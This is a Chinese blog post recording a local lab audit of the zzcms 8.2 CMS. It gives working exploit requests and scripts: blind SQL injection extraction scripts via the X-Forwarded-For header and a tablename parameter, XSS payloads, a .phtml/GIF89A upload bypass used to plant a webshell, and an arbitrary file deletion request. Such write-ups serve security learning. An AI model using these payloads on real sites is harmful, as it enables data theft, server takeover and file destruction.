

记录zzcms8.2审计过程以及漏洞分析
环境安装 本地搭建的环境是phpstudy，在设置中打开允许目录列表（不然可能会出现403无法访问的情况），然后访问http://localhost/install进行安装
审计工具 采用的审计工具是Seay源代码审计系统 ，将cms文件夹丢进去就可以帮助你分析出可能存在的漏洞以及对应的文件名，便于我们快速锁定漏洞所在，不用一个个文件去审计。
该审计工具还可以进行关键字的全局搜索功能，能帮助我们快速锁定关键函数等。

全局分析 先进入网站根目录网站index.php，发现包含了关键的文件/inc/conn.php ，跟进文件
1 2 3 4 5 6 7 include (zzcmsroot."/inc/config.php" );include (zzcmsroot."/inc/wjt.php" );include (zzcmsroot."/inc/function.php" );include (zzcmsroot."/inc/zsclass.php" );include (zzcmsroot."/inc/stopsqlin.php" );include (zzcmsroot."/inc/area.php" );
在conn.php文件中，可以看到又包含许多文件，其中stopsqlin.php文件很明显就是用来防止SQL注入，既然我们要寻找这个cms的漏洞，那么必然需要了解这个网站预防SQL注入的措施，所以继续跟进stopsqlin.php 文件
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 function zc_check ($string) if (!is_array($string)){ if (get_magic_quotes_gpc()){ return htmlspecialchars(trim($string)); }else { return addslashes(htmlspecialchars(trim($string))); } } foreach ($string as $k => $v) $string[$k] = zc_check($v); return $string; } if ($_REQUEST){ $_POST =zc_check($_POST); $_GET =zc_check($_GET); $_COOKIE =zc_check($_COOKIE); @extract($_POST); @extract($_GET); }
zc_check 函数的作用的就是检查魔术引号功能是否开启，未开启的话就利用addslashes函数对全局变量$_REQUEST的特殊符号进行转义处理，防止SQL注入，这里我们就必须知道，当某个文件包含了/inc/conn.php，那么这个文件就对所有POST，GET或者COOKIE的中的变量进行了特殊字符的转义处理。
漏洞分析 SQL注入漏洞1 位置 /user/check.php第二十行
分析 1 2 3 4 5 6 7 8 9 #/user/check.php <?php include("../inc/conn.php"); if (!isset($_COOKIE["UserName"]) || !isset($_COOKIE["PassWord"])){ echo "<script>location.href='/user/login.php';</script>"; }else{ $username=nostr($_COOKIE["UserName"]); $rs=query("select id,usersf,lastlogintime from zzcms_user where lockuser=0 and username='".$username."' and password='".$_COOKIE["PassWord"]."'"); ?>
我们可以发现/user/check.php文件是包含了关键文件/inc/conn.php的，所以第一个查询语句
1 query("select id,usersf,lastlogintime from zzcms_user where lockuser=0 and username='" .$username."' and password='" .$_COOKIE["PassWord" ]."'" );
经过单引号包裹，并且$username和$password都来自全局变量COOKIE，所以无法进行SQL注入
在第二十行的第二个查询语句：
1 query("UPDATE zzcms_user SET loginip = '" .getip()."' WHERE username='" .$username."'" );
我们可以发现拼接的参数是getip() 函数的返回值，我们在Seay审计系统中对getip() 函数进行全局搜索
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 #/inc/function.php <?php function getip(){ if (getenv("HTTP_CLIENT_IP") && strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown")) $ip = getenv("HTTP_CLIENT_IP"); else if (getenv("HTTP_X_FORWARDED_FOR") && strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")) $ip = getenv("HTTP_X_FORWARDED_FOR"); else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), "unknown")) $ip = getenv("REMOTE_ADDR"); else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'], "unknown")) $ip = $_SERVER['REMOTE_ADDR']; else $ip = "unknown"; return($ip); } ?>
可以发现ip我们是可以自己构造的，所以会导致SQL注入攻击
复现 事先在/reg/userreg.php页面注册账号，账号名为test，密码为test，注意这里密码是以md5加密的形式存储在数据库中的
1 2 query("INSERT INTO zzcms_user (username,password,passwordtrue,usersf,comane,content,somane,sex,phone,email,img,totleRMB,regdate,lastlogintime)VALUES('$username','" .md5($password)."','$password','$usersf','$comane',' ','$somane','1','$phone','$email','/image/nopic.gif','" .jf_reg."','" .date('Y-m-d H:i:s' )."','" .date('Y-m-d H:i:s' )."')" );
注册用户后，我们就可以构造PAYLOAD 进行SQL注入攻击了，这里关键参数ip字段我采用的是头部的X-Forwarded-For 字段，因为是这里的SQL语句是UPDATE 语句，所以我采用的是基于时间 的盲注，给出我的payload:
1 2 3 4 5 6 7 8 9 10 GET /user/check.php HTTP/1.1 Host: 127.0.0.1 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: PHPSESSID=adad7183ca248a9be539f0a153ce72f8; bdshare_firstime=1551059496947;UserName=test;PassWord=098f6bcd4621d373cade4e832627b4f6 X-Forwarded-For: 1.1.1.1' and if(ascii(substr(database(),1,1))=122,sleep(3),1)# Connection: close
再贴上盲注的具体脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 import requestsurl = "http://127.0.0.1/user/check.php" database = "" for i in range(1 ,50 ): flag = 0 for j in range(95 ,123 ): headers = { "Cookie" :"UserName=test;PassWord=098f6bcd4621d373cade4e832627b4f6" , "X-Forwarded-For" :"1.1.1.1' and if(ascii(substr(database(),%d,1))=%d,sleep(3),1)#" %(i,j) } r = requests.get(url,headers=headers) t = r.elapsed.total_seconds() if t >= 3 : database = database + chr(j) flag = 1 break if flag == 0 and j == 122 : print("database:" ,database) break
SQL注入漏洞2 位置 /user/del.php第139行
分析 1 2 3 4 #/user/del.php 第139行 <?php $sql="select id,editor from ".$tablename." where id ='$id'"; ?>
这句SQL语句不同其他处的SQL语句，是通过两个变量$tablename和$id拼接而成的，更特别的是这里的$tablename是不同于特定情况的，我们跟进变量$tablename和$id
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 <?php $pagename=trim($_POST["pagename" ]); $tablename=trim($_POST["tablename" ]); $id="" ; if (!empty ($_POST['id' ])){ for ($i=0 ; $i<count($_POST['id' ]);$i++){ checkid($_POST['id' ][$i]); $id=$id.($_POST['id' ][$i].',' ); } $id=substr($id,0 ,strlen($id)-1 ); } if (!isset ($id) || $id=="" ){showmsg('操作失败！至少要选中一条信息。' ); }
可知变量$id和$tablename都是经过POST方式获得，但是$id经过checkid的消毒处理，我们无法通过该变量进行攻击，再看$tablename，之后的switch语句对$tablename的值进行判断并分别执行对应的sql语句，我们跟进到135行，便可以发现此处的$tablename的值是排除上面所有特殊值的情况
1 2 3 4 5 6 7 else {if (strpos($id,"," )>0 ){ $sql="select id,editor from " .$tablename." where id in (" . $id .")" ; }else { $sql="select id,editor from " .$tablename." where id ='$id'" ; }
并且此处的SQL语句中的变量$tablename没有经过单引号包裹，所有我们可以通过这个变量进行SQL攻击
复现 首先我们必须确定列id和editor是属于具体哪个表的
我们随机选取一个表zzcms_answer作为例子
payload如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 POST /user/del.php HTTP/1.1 Host: 127.0.0.1 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: PHPSESSID=adad7183ca248a9be539f0a153ce72f8; bdshare_firstime=1551059496947 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 68 id=1&tablename=zzcms_answer union select 1,2 and if(ascii(substr(database(),1,1))=122,sleep(3),1)#
因为这里采用的是基于时间的盲注，从zzcms_answer表中查询的结果有可能为空，如果为空，就不能执行后面的if语句，所以为了确保有查询结果，加入联合查询，保证有查询结果
下面附上盲注脚本：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 import requestsurl = "http://127.0.0.1/user/del.php" database = "" for i in range(1 ,50 ): flag = 0 for j in range(95 ,123 ): data = { "id" :"1" , "tablename" :"zzcms_answer union select 1,2 and if(ascii(substr(database(),%d,1))=%d,sleep(3),1)#" %(i,j) } r = requests.post(url,data=data) t = r.elapsed.total_seconds() if t >= 3 : database = database + chr(j) flag = 1 break if flag == 0 and j == 122 : print("database:" ,database) break
XSS漏洞1 位置 /install/step_6.php 第10-11行
分析 1 2 3 管理员户名：<?php echo $admin?> <br/> 管理员密码： <?php echo $adminpwdtrue?> <br/>
可以看出变量$admin和$adminpwdtrue直接打印出来，很可能存在XSS漏洞，我们继续跟进这两个变量
我们可以从文件名看出这是安装第六步的页面，那么我们就跟进到安装的index.php文件
1 2 3 4 if ($_POST) extract($_POST, EXTR_SKIP);if ($_GET) extract($_GET, EXTR_SKIP);$step = isset ($_POST['step' ]) ? $_POST['step' ] : 1 ;
extract函数的作用是将数组的键名变成各个变量名，键名对应键值对应变量的值，并且我们发现一个变量$step，猜测可能跟安装的步骤有关，继续跟进该变量
1 2 3 4 5 6 7 switch ($step){ case '1' :include 'step_' .$step.'.php' ; ... case '6' :include 'step_' .$step.'.php' ; break ; }
发现当变量$step值为6时，就包含了step_6.php，而我们可以发现index.php的开头是没有包含之前所说的关键文件/inc/conn.php的，所以这里的POST和GET是没有经过转义处理的，所以$admin和$adminpwdtrue是可控的变量
复现 PAYLOAD如下:
1 2 3 4 5 6 7 8 9 10 11 12 13 POST /install/ HTTP/1.1 Host: 127.0.0.1 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: PHPSESSID=adad7183ca248a9be539f0a153ce72f8; bdshare_firstime=1551059496947 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 42 step=6&admin=<script>alert(/xss/)</script>
成功弹框
XSS漏洞2 位置 /inc/top.php 第3-5行
分析 1 2 3 4 if (@$_POST["action" ]=="search" ){echo "<script>location.href='" .@$_POST["lb" ]."/search.php?keyword=" .@$_POST["keyword" ]."'</script>" ;}
我们可以注意到这个文件也是没有包含到关键文件/inc/conn.php，所以未对POST数据做消毒处理，这里就可以利用闭合标签的方式进行XSS攻击
复现 PAYLOAD:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 POST /inc/top.php HTTP/1.1 Host: 127.0.0.1 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Referer: http://127.0.0.1/inc/top.php Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: PHPSESSID=adad7183ca248a9be539f0a153ce72f8; bdshare_firstime=1551059496947 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 63 action=search&lb=</script><script>alert(/xss/)</script><script>
成功弹框
文件上传漏洞 位置 /uploadimg_form.php 文件提供了文件上传的功能
分析 1 2 3 4 5 6 7 8 9 /uploading_form.php 第61-68行 <form action="uploadimg.php" method="post" enctype="multipart/form-data" onSubmit="return mysub()" style="padding:10px" target="doaction"> <div id="esave" style="position:absolute; top:0px; left:0px; z-index:10; visibility:hidden; width: 100%; height: 77px; background-color: #FFFFFF; layer-background-color: #FFFFFF; border: 1px none #000000;"> <div align="center"><br /><img src="image/loading.gif" width="24" height="24" />正在上传中...请稍候！</div> </div> <input type="file" name="g_fu_image[]" /><input type="submit" name="Submit" value="提交" /> <input name="noshuiyin" type="hidden" id="noshuiyin" value="<?php echo @$_GET['noshuiyin']?>" /> <input name="imgid" type="hidden" id="imgid" value="<?php echo @$_GET['imgid']?>" /> </form>
通过表单内容我们可以看出，文件上传的位置是uploadimg.php文件，所以我们跟进该文件
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 function upfile () if (!is_uploaded_file(@$this ->fileName[tmp_name])){ echo "<script>alert('请点击“浏览”，先选择您要上传的文件！\\n\\n支持的图片类型为：jpg,gif,png,bmp');parent.window.close();</script>" ; exit ; } if ($this ->max_file_size*1024 < $this ->fileName["size" ]){ echo "<script>alert('文件大小超过了限制！最大只能上传 " .$this ->max_file_size." K的文件');parent.window.close();</script>" ;exit ; } if (!in_array($this ->fileName["type" ], $this ->uptypes)) { echo "<script>alert('文件类型错误，支持的图片类型为：jpg,gif,png,bmp');parent.window.close();</script>" ;exit ; } $hzm=strtolower(substr($this ->fileName["name" ],strpos($this ->fileName["name" ],"." ))); if (strpos($hzm,"php" )!==false || strpos($hzm,"asp" )!==false ||strpos($hzm,"jsp" )!==false ){echo "<script>alert('" .$hzm."，这种文件不允许上传');parent.window.close();</script>" ;exit ;}
在该文件中，可以找到后端对上传文件验证的代码，有四个步骤的验证，第一是检查是否存在上传的文件，第二是检查文件的大小，第三是检查文件类型必须是规定的图片类型，见第12行
1 private $uptypes = array ('image/jpg' ,'image/jpeg' ,'image/pjpeg' ,'image/gif' ,'image/png' ,'image/x-png' ,'image/bmp' ,'application/x-shockwave-flash' );
最后检查的是文件后缀，禁止后缀名包含php，asp和jsp的文件，但是它忽略了phtml文件，而apache会将phtml文件当做php文件来解析，所以我们只需要将文件名后缀修改为phtml，文件类型修改为image/jpg，即可以成功绕过过滤上传一句话木马文件
复现 根据上面的分析，我修改了如下的payload
但是可以发现上传失败了，提示了“经判断上传的文件不是图片文件，已删除”，根据提示在原文件找到之前忽略了的过滤点
1 2 3 4 5 $data=GetImageSize($newName); if ($data[2 ]!=1 && $data[2 ]!=2 && $data[2 ]!=3 && $data[2 ]!=6 ){unlink($newName); echo "<script>alert('经判断上传的文件不是图片文件，已删除。');parent.window.close();</script>" ;exit ;
我们可以注意到一个函数GetImageSize ，这个函数可以取得图片的各个属性，之后就可以判断该文件是否是一个图片文件。所以这里在文件的内容头部加入GIF89A ，以此来绕过GetImageSize 的检查，如下所示
修改后成功上传一句话木马文件，并在返回内容我们可以很清晰的看出上传文件的具体位置
最后上菜刀验证
成功getshell
任意文件删除漏洞 位置 /user/adv.php 第76-85行
分析 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ...... if (isset ($_REQUEST["img" ])){$img=$_REQUEST["img" ]; }else { $img="" ; } if (isset ($_REQUEST["oldimg" ])){$oldimg=$_REQUEST["oldimg" ]; }else { $oldimg="" ; } ...... if ($action=="modify" ){query("update zzcms_textadv set adv='$adv',company='$company',advlink='$advlink',img='$img',passed=0 where username='" .$_COOKIE["UserName" ]."'" ); if ($oldimg<>$img){ $f="../" .$oldimg; if (file_exists($f)){ unlink($f); } }
我们可以发现变量$f是通过”../“与变量$oldimg拼接而成的，拼接后的文件名如果存在就通过unlink函数进行文件删除操作，而这里对变量$olding没有什么其他的过滤，只要求不等于变量$img，且$action等于”modify”，那么我们就可以通过控制变量$olding的值进行任意文件删除
复现 我们先在网站根目录下创建一个文件夹，里面新建文件1.php，2.txt
然后构造如下payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 POST /user/adv.php HTTP/1.1 Host: 127.0.0.1 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: PHPSESSID=adad7183ca248a9be539f0a153ce72f8; bdshare_firstime=1551059496947; UserName=test; PassWord=098f6bcd4621d373cade4e832627b4f6 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 41 action=modify&img=test&oldimg=demo/1.php
后记 这是第一次审计一个完整的cms，大部分还是参考网上前辈们的文章来审计，感受到自己独立审计的能力还有很大的不足，今后还需要通过多练，多花时间来加强自己的审计能力。